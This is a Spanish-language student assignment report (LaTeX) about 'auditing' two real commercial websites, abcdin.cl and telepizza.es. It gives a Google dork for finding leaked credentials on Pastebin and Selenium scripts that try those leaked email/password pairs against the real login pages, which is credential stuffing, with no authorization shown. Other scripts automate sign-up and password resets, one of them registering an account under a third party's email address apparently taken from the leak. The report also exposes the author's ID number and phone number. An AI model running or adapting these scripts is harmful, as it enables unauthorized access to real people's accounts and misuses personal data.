\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage[paperheight=27.94cm,paperwidth=21.59cm,bindingoffset=0in,left=2.5cm,right=2.0cm, top=2.5cm,bottom=2.5cm, headheight=200pt, headsep=1.0\baselineskip]{geometry}
\usepackage{graphicx,lastpage}
\usepackage{upgreek}
\usepackage{censor}
\usepackage[spanish,es-tabla]{babel}
\usepackage{listings}

\usepackage{pdfpages}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{adjustbox}
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{rotating}
\usepackage{animate}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\renewcommand{\tablename}{Tabla}
\usepackage{fancyhdr}
\usepackage{movie15}
\pagestyle{fancy}
\fancyhf{}
\renewcommand{\footrulewidth}{0.4pt}
\lhead[\leftmark]{Criptografía.}
\rhead[Taller de Redes: Tarea 5]{\rightmark}
\lfoot[\thepage]{}
\rfoot[]{\thepage}
\usepackage{moreverb}
\usepackage{enumitem}
\usepackage{float}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{xcolor}

\definecolor{mygreen}{RGB}{0,128,0}
\hypersetup{
    colorlinks=true,
    linkcolor=black,
    filecolor=magenta,      
    urlcolor=mygreen,
}
\usepackage{listings}
\lstset{basicstyle=\ttfamily,
  showstringspaces=false,
  commentstyle=\color{red},
  keywordstyle=\color{blue}
}

\begin{document}
%------------------Portada--------------
    \begin{titlepage}
        \centering
        \vspace{1cm}
        {\scshape\Large Universidad Diego Portales \par}
        \vspace{2cm}
        {\scshape\Huge Tarea 1: PASSWORD\par}
        \vspace{1cm}
        \vspace{1cm}
        {\itshape\Large Profesor: Víctor Manriquez \par}
        \vfill
        {\Large Integrantes: \par}
        {\Large Diego Carrillo \par}
        \vfill
        {\Large 15 de Mayo 2022 \par}
    \end{titlepage}
%-----------------------------------------------

\tableofcontents
 \newpage
 \section{Introducción}
 En el presente laboratorio, se enfoca principalmente en auditar un sitio web, en donde se pondrá a prueba la seguridad e integrad de este mismo sitio. 
 \\\\
 Poniendo a prueba, la capacidad, de cada pagina, para detectar ataques de fuerza bruta, o bien, procesos automatizados.
 \\\\
 Estos procesos automatizados, fueron generados para contraseñas que se encontraron, para este mismo laboratorio, mediante el uso de Dorks. 

\section{Marco Teórico | Requerimientos}
Para poder desarrollar el presente laboratorio, es necesario tener instalados unos implementos dentro del ordenador, que permitirán
que los programas se ejecuten de forma correcta. 
\\\\
El único programa que es necesario tener, es Selenium y el driver que permite la compatibilidad con el explorador a utilizar, en este caso, 
Google Chroome. Para obtener este driver, hay que seguir una serie de pasos, que se encuentran en en la pagina \href{https://sites.google.com/chromium.org/driver/}{guia}.
Este driver, se debe descargar y localizar en la ubicación que se indica en el código a utilizar, en este caso, la dirección es 
\\\\
\begin{verbatim}
    /usr/local/bin
\end{verbatim}
En donde se encontrará un archivo, que se debe ejecutar cada vez que se desee utilizar los códigos correspondiente a selenium. Dicho archivo se debe ejecutar
con la siguiente linea de código en la consola de comandos. 
\begin{itemize}
    \item ./chromedriver
\end{itemize}
De igual manera, es de suma importancia tener instalado en el ordenador Python 3.x en donde sea posible trabajar los códigos que se encontraran a continuación. 


\newpage
\section{Desarrollo}
    A continuación, se mostraran los hitos que componen de este laboratorio, en conjunto con vídeos,
    fotos y código correspondiente para cada caso. 

\subsection{Hito I}

    Para empezar esta actividad, se debió de buscar filtraciones de datos en paginas Chilenas, mediante el uso de dorks.
     Estas filtraciones,deberían de poder contener como mínimo un correo y contraseña para cada usuario.      
    \\\\
    Durante el desarrollo de este hito, surgió una gran cantidad de inconvenientes, debido a que, si bien, se poseía un conocimiento
    sobre el uso de dorks, pero era limitado hasta un cierto punto.Y por otro lado, los sitios en donde se encontraban las filtraciones
    también eran limitados.
    \\\\
    Se nos recomendó tener como referencia la pagina de pastebin, el cual es un sitio en donde la comunidad sube sus aportes y datos que han
    obtenido mediante filtraciones a gran escala o simplemente datos que obtienen de manera individual.
    \\\\
    Como los datos que se fueran encontrando, debían de irse rellenando en un excel; provocó que exista competitividad dentro de los 
    integrantes del curso, ya que, los links que se obtuvieron, se repetían, lo que negó el uso de los datos encontrados. Este hito,
    el estudiante lo realizo, aproximadamente, unas 5 veces y fue el que mas tiempo tomó debido a la escasez de datos. 
    \\\\
    El Dork utilizado para encontrar las credenciales utilizadas fue el siguiente:
    \\
    \begin{center}
        \textbf{intext:''LulzSecAR'' site:''pastebin.com''}
    \end{center}

    Fue creado para ser utilizado en el buscado de Google, y básicamente, se basa en buscar dentro de la pagina pastebin.com a un usuario, el cual, es conocido por que sus publicaciones o
    comentarios son filtraciones, entonces, se decide ir pos las publicaciones de este usuario para hacer una búsqueda que garantice
    un resultado. 
    \\\\
    Posteriormente, al aplicar el dork, dentro del buscador se obtienen solo dos resultados.
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=10cm ]{respuestadork.png}
    \end{figure}
    \\\\
    En esta búsqueda, el enlace a utilizar, sera el primero, que nos llevara de forma directa a la
    \href{https://pastebin.com/LgbbJRsp}{publicación}  con las filtraciones.
    \\\\
    \begin{figure}[h!]
        \centering
        
\includegraphics[width=10cm]{leakspastebin.png}
    \end{figure}

    Una vez obtenidas, los 20 pares de correo contraseña, se procedió a encontrar dos sitios webs. Un sitio, debería ser de procedencia Chilena
    , mientras que otro, perteneciente a Europa. 
    \newline
    Encontrar el sitio web Chileno, no fue difícil, es más, existe una gran cantidad de sitios que carecen de seguridad o de una buen
    desarrollo web. En cambio, para Europa, fue mas difícil debido a que algunas paginas no lograban cargar o no se cumplía con el tiempo de
    respuesta solicitado, así como también, cuando se probaban sitios, se recibieron baneos y bloqueos de ip dentro de las paginas, e incluso
    eran capaces de detectar automatizaciones, lo que impedía todo tipo de trabajos.(Esto se explicará en los siguientes Hitos)
    \\\\
    Las paginas escogidas, fueron las siguientes: 
    \\\\
    \subsection{Sitios web}
        \subsubsection{Chile}
        \begin{itemize}
            \item www.abcdin.cl
        \end{itemize}

        \subsubsection{Europa}
        \begin{itemize}
            \item www.telepizza.es
        \end{itemize}

\newpage

\subsection{Hito II}

En el siguiente hito, se pondrán a pruebas las credenciales que fueron encontradas en el punto pasado. Como se encontró una gran cantidad
de credenciales, estas debieron de ser probadas mediante un proceso automatizado.
\\\\
En primera instancia, se pensó utilizar Medusa o Hydra para generar la automatización de procesos, es más, al momento de utilizar hydra, en
en teoría se logro generar el ataque, utilizando las contraseñas que fueron encontradas; pero, no se lograba evidenciar de forma clara
el ataque. 
\\\\
Por lo mencionado anteriormente, se decide reemplazar el uso de estos software, por \textbf{Selenium}, el cual es un entorno de trabajo, que
permite realizar acciones dentro de un entorno web. En donde, se le va dando ordenes, mediante un código, que se irán reproduciendo y 
cumpliendo paso a paso.
\\\\
Si bien, ya sabemos con que se realizara este proceso, hay que dejar en claro que es lo que se hará. Un ataque de fuerza bruta, consiste en 
intentar forzar el login de una cuenta mediante la prueba y error de contraseñas. Estos datos que se probaron, fueron los encontrados en el hito
anterior, en las paginas Chilena y Europea.
\\\\
Para poner a prueba el ataque de fuerza bruta, se utilizo el siguiente código:

\begin{lstlisting}[lenguaje=Python]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    for contraseña in contraseñas:
        for correo in correos: 
            
            email = driver.find_element(By.ID, "email")
            email.clear()
            email.send_keys(correo)
            time.sleep(1)
            passw = driver.find_element(By.ID,"pass")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(1)
            driver.find_element(By.ID, "send2").click()
            time.sleep(2)
    driver.close()

\end{lstlisting}

\\\\
Al inicio del código, se utilizan funciones para poder leer los datos que fueron entregados mediante archivos, en donde se almacenó los correos
y contraseñas.

Posteriormente en el código se puede observar como se asocia el driver correspondiente al software, para posteriormente ir dando indicaciones, las cuales serán: 
\begin{itemize}
    \item Hacer click en botones. 
    \item Trabajar con Checkbox.
    \item Quitar Avisos de Cookies.
    \item Iniciar un Sleep, para permitirle al usuario interactuar con un Captcha.
    \item Ingresar Credenciales.
\end{itemize}

Todas las acciones mencionadas anteriormente, consisten en obtener ''ID'' y ''XPath'' de los botones o direcciones con las que se
interactúa, para así cumplir con las ordenes deseadas. Estos valores se obtenían ingresando dentro del código correspondiente al desarrollo
del sitio web, es decir, se debió inspeccionar la pagina por detrás y así obtener las credenciales una por una. Esto no siempre era posible, ya que, en muchas
ocasiones los botones del sitio web no siempre poseen ''ID'', y se debía de trabajar con el XPath.
\\\\
En terminos generales, para ambas paginas, se logró probar las credenciales, lo que demostraba que los correos si existian y no eran inventados, 
mientras que, las contraseñas se encontraban cifradas mediante un hash, lo que no me permitiría verla en texto plano, pero de una forma u otra
estas credenciales si existen o existieron para una pagina en especifico, pero para las paginas a probar existía una gran posibilidad de que
no fueran las credenciales correspondiente a una cuenta. 
\\\\
De todas formas, se probaron todas las credenciales para cada usuario, esto es conocido como un ataque de fuerza bruta.

\newpage
\subsection{Hito III}
Para esta sección,se debió de cumplir con una serie de objetivos, las que requirieron crear un procesos automatizado que 
interactuara con los sitios webs escogidos. 
\begin{itemize}
    \item Creacion de cuenta
    \item Inicio de sesión
    \item Restablecimiento de contraseña
    \item Modificación de contraseñas
\end{itemize}

Como se mencionó anteriormente, se utilizó Selenium, dentro del lenguaje de programación \textbf{Python}, el cual, es el que permite
y es más cómodo trabajar con Selenium. Para utilizarlo, fue necesario descargar unos drivers que me permitiera trabajar con el navegador
de Google Chrome. Y de la misma manera, ejecutarlo cada vez que sea necesario trabajar con esto.
\\\\
Para facilitar y reducir los posibles errores, para las paginas utilizadas, se accede directo al sitio web en donde se dan las opciones de 
login o creación de cuenta, así como también, restablecer cuenta.
\\\\
En todos los códigos presente, se configura primero el uso del ''webdriver'' en las primeras lineas de todos los códigos. Además, se le dan las ordenes directa de abrir Google Chrome, maximizando la ventana y abriendo el sitio web que se está auditando. 
\\\\
Posterior a esto, todos los códigos serán similares, solo variará las acciones, por ejemplo, algunas paginas tendrán que hacer click en más botones que en otras o irán variando según lo especificado.
\\\\
Si deseamos hacer un login, se realizara el acceso a la pagina de login, y se tendrá que realizar un ciclo para ir probando las contraseñas. 
\\\\
Al momento que se necesite ingresar una credencial, esta sera guardada en alguna variable, y se le indicará la posición otorgándole la ID o Xpath especifico. Es por esto, que en todos los códigos se seguirá el mismo patrón, solo cambiara los datos correspondiente de donde se desee interactuar.
\\\\
Todos los códigos están presentados en la pagina de Github, además, todos los códigos fueron compilados y presentados en el canal de Youtube, para poder dejar un registro y evidencia de lo desarrollado. 
\\\\
\href{https://www.youtube.com/channel/UCk5pfvIDquP594yWTGmUN7g/videos}{Canal de Youtube}\\\\
\href{https://github.com/Carro1331/Criptografia}{Repositorio Github}\\\\
A continuación, se dividirá lo solicitado tanto para Chile como para Europa.
\newpage
\subsection{Chile}
\subsubsection{Creacion de Cuenta}

    \begin{lstlisting}[lenguaje=py]
        import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo=['diego.carrillo1@mail.udp.cl']
    contraseña =['newPASS123']

    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/create/')
    time.sleep(5)
    nombre = driver.find_element(By.ID,"firstname")
    nombre.clear()
    nombre.send_keys('DIEGO')
    time.sleep(1)
    
    apellido = driver.find_element(By.ID,"lastname")
    apellido.clear()
    apellido.send_keys('CARRILLO')
    time.sleep(1)

    rut = driver.find_element(By.ID,"rut")
    rut.clear()
    rut.send_keys('20469491-5')
    time.sleep(1)

    dia = driver.find_element(By.ID,"dob-day")
    dia.clear()
    dia.send_keys('9')
    time.sleep(1)

    mes = driver.find_element(By.ID,"dob-month")
    mes.clear()
    mes.send_keys('3')
    time.sleep(1)

    mes = driver.find_element(By.ID,"dob-year")
    mes.clear()
    mes.send_keys('2000')
    time.sleep(1)

    driver.find_element(By.ID,"gender").click()
    driver.find_element(By.XPATH,'//*[@id="gender"]/option[3]').click()
    time.sleep(1)

    tel = driver.find_element(By.ID,"customer_telephone")
    tel.clear()
    tel.send_keys('954171598')
    time.sleep(1)

    mail = driver.find_element(By.ID,"email_address")
    mail.clear()
    mail.send_keys(correo)
    time.sleep(1)

    password = driver.find_element(By.ID,"password")
    password.clear()
    password.send_keys(contraseña)
    time.sleep(1)

    passwordconfirmation = driver.find_element(By.ID,"password-confirmation")
    passwordconfirmation.clear()
    passwordconfirmation.send_keys(contraseña)
    time.sleep(1)

    driver.find_element(By.ID,"is_subscribed").click()
    driver.find_element(By.ID,"term_conditions").click()
    time.sleep(20)
    driver.find_element(By.XPATH,'//*[@id="form-validate"]/fieldset[3]/div[8]/div/button').click()
    time.sleep(50)


    driver.close()
    \end{lstlisting}

    \\\\

    Al memento, de compilar este codigo, es necesaria la intervencion humana durante la ejecucion del codigo, debido a que al momento de crear
    una cuenta existe un Captcha que no se puede automatizar, ya que estos, son ''cortafuegos'' para procesos automatizados o tecnicas de
    hacking, es por esto, que se utiliza un sleep de larga duracion, para darle al usuario el tiempo necesario para crear la cuenta.

\newpage
\subsubsection{Inicio de Sesion}
    Este codigo, es el mismo utilizado en el hito 2, en donde se debe automatizar un inicio de sesión probando las credenciales encontradas.

    \\\\

    \begin{lstlisting}[lenguaje=py]
        import string, random, time
        from selenium import webdriver
        from selenium.webdriver.common.keys import Keys
        from selenium.webdriver.common.by import By
        from ctypes import sizeof
        ubicacionDriver = '/usr/local/bin/chromedriver'
        
        def readUsuarios():
            usuarios = list()
            arc = open("user.txt")
            lineas = arc.readlines()
            i = 0    #driver.get('https://www.abcdin.cl/')
            for lineas in lineas:
                usuarios.append(lineas)
            return usuarios
        
        def readPasswords():
            passwords = list()
            arc = open("pass.txt")
            lineas = arc.readlines()
            i = 0
            for lineas in lineas:
                passwords.append(lineas)
            return passwords
        
        
        if __name__ == "__main__":
            options = webdriver.ChromeOptions()
            options.add_argument('--start-maximized')
            options.add_argument('--disable-extensions')
        
            driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
            correos=readUsuarios()
            contraseñas=readPasswords()
            driver.set_window_position(1000,0)
            driver.maximize_window()
            time.sleep(1)
            driver.get('https://www.abcdin.cl/customer/account/login/')
            time.sleep(5)
            for contraseña in contraseñas:
                for correo in correos: 
                    
                    email = driver.find_element(By.ID, "email")
                    email.clear()
                    email.send_keys(correo)
                    time.sleep(1)
                    passw = driver.find_element(By.ID,"pass")
                    passw.clear()
                    passw.send_keys(contraseña)
                    time.sleep(1)
                    driver.find_element(By.ID, "send2").click()
                    time.sleep(2)
            driver.close()
        
        \end{lstlisting}
\newpage
\subsubsection{Restablecimiento de Contraseña}      
    \begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo = 'diego.carrillo1@mail.udp.cl'
    passnew='newPASS123'
    passold='oldPASS123' # pass recien cambiada
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    email = driver.find_element(By.ID, "email")
    email.clear()
    email.send_keys(correo)
    time.sleep(1)
    passw = driver.find_element(By.ID,"pass")
    passw.clear()
    passw.send_keys(passnew)
    time.sleep(1)
    driver.find_element(By.ID, "send2").click()
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="maincontent"]/div[2]/div[1]/div[4]/div[2]/div/div[2]/a[2]/span').click()
    time.sleep(5)
    
    contant = driver.find_element(By.ID,'current-password')
    contant.clear()
    contant.send_keys(passnew)
    time.sleep(2)

    new = driver.find_element(By.ID,'password')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    new = driver.find_element(By.ID,'password-confirmation')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    driver.find_element(By.XPATH,'//*[@id="form-validate"]/div[2]/div[1]/button').click()
    time.sleep(200)
    driver.close()
    \end{lstlisting}


\newpage
\subsubsection{Modificacion de Contraseña}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo = 'diego.carrillo1@mail.udp.cl'
    passnew='newPASS123'
    passold='oldPASS123' # pass recien cambiada
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.abcdin.cl/customer/account/login/')
    time.sleep(5)
    email = driver.find_element(By.ID, "email")
    email.clear()
    email.send_keys(correo)
    time.sleep(1)
    passw = driver.find_element(By.ID,"pass")
    passw.clear()
    passw.send_keys(passnew)
    time.sleep(1)
    driver.find_element(By.ID, "send2").click()
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="maincontent"]/div[2]/div[1]/div[4]/div[2]/div/div[2]/a[2]/span').click()
    time.sleep(5)
    
    contant = driver.find_element(By.ID,'current-password')
    contant.clear()
    contant.send_keys(passnew)
    time.sleep(2)

    new = driver.find_element(By.ID,'password')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    new = driver.find_element(By.ID,'password-confirmation')
    new.clear()
    new.send_keys(passold)
    time.sleep(2)

    driver.find_element(By.XPATH,'//*[@id="form-validate"]/div[2]/div[1]/button').click()
    time.sleep(200)
    driver.close()
\end{lstlisting}

\subsection{Europa}

\subsubsection{Cambiar contraseña}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.abcdin.cl/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correo = ['diego.carrillo.1331@gmail.com']
    passnew=['newPASS123%']
    passold=['oldPASS123%'] # pass recien cambiada
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')

    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    
    email = driver.find_element(By.ID, 'UserName')
    email.clear()
    email.send_keys(correo)
    time.sleep(5)

    passw = driver.find_element(By.ID,"Password")
    passw.clear()
    passw.send_keys(passnew)
    time.sleep(5)
    
    driver.find_element(By.ID, "login-submit").click()
    time.sleep(5)

    driver.find_element(By.XPATH, '//*[@id="user-dropdown"]').click()
    time.sleep(5)

    driver.find_element(By.XPATH, '//*[@id="user-dropdown"]/div/a[3]/div').click()
    time.sleep(5)

    email = driver.find_element(By.XPATH, '//*[@id="Email"]')
    email.clear()
    email.send_keys(correo)
    time.sleep(5)

    driver.find_element(By.XPATH,'//*[@id="main-content"]/div[2]/div/div/form/div[2]/div/button').click()
    time.sleep(30)

    driver.close()
\end{lstlisting}

\subsubsection{Crear Cuenta}

\begin{lstlisting}[lenguaje=py]
    import string, random, time
    from selenium import webdriver
    from selenium.webdriver.common.keys import Keys
    from selenium.webdriver.common.by import By
    from ctypes import sizeof
    ubicacionDriver = '/usr/local/bin/chromedriver'
    
    
    if __name__ == "__main__":
        options = webdriver.ChromeOptions()
        options.add_argument('--start-maximized')
        options.add_argument('--disable-extensions')
    
        driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
        correo=['ljimenez@gorecoquimbo.cl']
        contraseña =['A202cb962ac5912%']
    
        driver.set_window_position(1000,0)
        driver.maximize_window()
        time.sleep(1)
        driver.get('https://www.telepizza.es/account/login')
        time.sleep(5)
        driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
        time.sleep(5)
        driver.find_element(By.XPATH,'//*[@id="main-content"]/div/div/div[2]/div/a').click()
        time.sleep(5)
    
        scorreo = driver.find_element(By.XPATH,'//*[@id="RegisterUserName"]')
        scorreo.clear()
        scorreo.send_keys(correo)
        time.sleep(5)
    
        passw = driver.find_element(By.XPATH,'//*[@id="RegisterPassword"]')
        passw.clear()
        passw.send_keys(contraseña)
        time.sleep(1)
        
        passw = driver.find_element(By.XPATH,'//*[@id="RegisterConfirmPassword"]')
        passw.clear()
        passw.send_keys(contraseña)
        time.sleep(1)
        
        driver.find_element(By.XPATH,'//*[@id="ActivityTypesViewModel_CustomerActivitiesViewModel_1__Value"]').click()
        time.sleep(10)
        
        driver.find_element(By.XPATH,'//*[@id="register-form-content"]/div[7]/div/input').click()
        time.sleep(20)
        driver.close()
\end{lstlisting}

\subsubsection{Olvidar Contraseña}
\begin{lstlisting}[lenguaje=py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0   
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')
    time.sleep(5)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    i = 0
    for correo in correos:
        recover = driver.find_element(By.XPATH,'//*[@id="login-with-email"]').click()        
        time.sleep(10)
        recover = driver.find_element(By.ID,'Email')
        recover.clear()
        recover.send_keys(correo)
        time.sleep(10)
        recover = driver.find_element(By.XPATH,'//*[@id="main-content"]/div/div/div/form/div[2]/div/button').click()
        time.sleep(10)
        break
    driver.close()


\end{lstlisting}

